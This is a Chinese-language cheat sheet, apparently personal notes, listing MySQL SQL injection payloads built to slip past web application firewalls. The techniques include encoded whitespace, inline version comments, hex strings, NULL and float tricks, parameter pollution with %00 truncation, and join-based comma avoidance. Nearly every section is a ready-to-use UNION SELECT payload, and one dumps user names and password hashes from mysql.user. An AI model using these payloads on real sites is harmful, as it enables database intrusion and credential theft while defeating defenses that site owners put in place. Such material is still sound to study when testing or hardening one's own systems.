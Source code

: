 # 1.空格字符绕过
>两个空格代替一个空格或者用tab代替空格，%a0=空格
>%20 %09 %0a %0b %0c %0d %a0 %00 `/**/`  `/*!*/`
>`select * from users where id=1 /*!union*//*!select*/1,2,3,4`;
>%09  TAB键(水平)
>%0a  新建一行
>%0c  新的一页
>%0d  return功能
>%0b  TAB键(垂直)
>%a0  空格
*`/*！这里根据mysql版本的内容不注释*/`*
# 2.大小写绕过
将字符串设置为大小写，例如and 1=1 转成 AND 1=1或 AnD 1=1
# 3.浮点数绕过注入
>`select * from users where id=8E0union select 1,2,3,4;`
>`select * from users where id=8.0union select 1,2,3,4;`
# 4.NULL值绕过
>select `\n`; 代表null
>select * from users where id=`\N`union select 1,2,3,`\N`;
>select * from users where id=`\N`union select 1,2,3,`\N`from users;
# 5.引号绕过
waf拦截单/双引号的时候，我们可以用双/单引号绕过，在mysql里也可以使用双引号作为字符串。
>select * from users where id='1';
>select * from users where id="1";

也可以将字符串转换成16进制，再进行查询

>select hex('admin');
>select * from users where username='admin';
>select * from users where username=0x61646D696E;

如果gpc开启了，注入点是整型也可以用hex十六进制进行绕过
>select * from users where id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where TABLE_NAME='users' limit 1),4;
>
>select * from users where id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where TABLE_NAME=0x7573657273 limit 1),4;
>可以看到存在整型的时候没有用到单引号，所以可以注入。
# 5.添加库名绕过
 以下两条查询语句，执行的结果是一致的，但是有些waf的拦截规则，并不会拦截[库名].[表名这种模式]。
 >select * from users where id=-1 union select 1,2,3,4 from users;
 >select * from users where id=-1 union select 1,2,3,4 from test.users;

 同时mysql中也可以添加库名查询表。例如跨库查询mysql库里的users表的内容。
 >select * from users where id=-1 union select 1,2,3,concat(user,authentication_string) from mysql.user;
# 6.去重复绕过
 在mysql查询可以使用distinct去除查询的重复值。可以利用这点突破waf拦截

 >select * from users where id=-1 union distinct select 1,2,3,4 from users;
 >select * from users where id=-1 union distinct select 1,2,3,version() from users;
# 7.反引号绕过
在mysql可以使用\`来绕过一些waf拦截。
>insert into users(username,password,email)values('admin','123456','admin@163.com');
>insert into users(\`username\`,\`password\`,\'email\')values('admin','123456','admin@163.com');
# 8.脚本语言特性绕过
在php语言中，id=1&id=2后面的值会自动覆盖前面的值，不同的语言有不同的特性。可以利用这点绕过一些waf拦截。
>id=1%00&id=2 union select 1,2,3

有些waf会去匹配第一个id参数1%00,%00是截断字符，waf会自动截断，从而不会检测后面的内容。到了程序中就会运行后面的id=2 union select 1,2,3从而绕过注入拦截。
![[475232858747992656.pdf]]
# 9.逗号绕过
当waf过滤逗号的时候，可以通过join方法来进行绕过
>union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
>union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
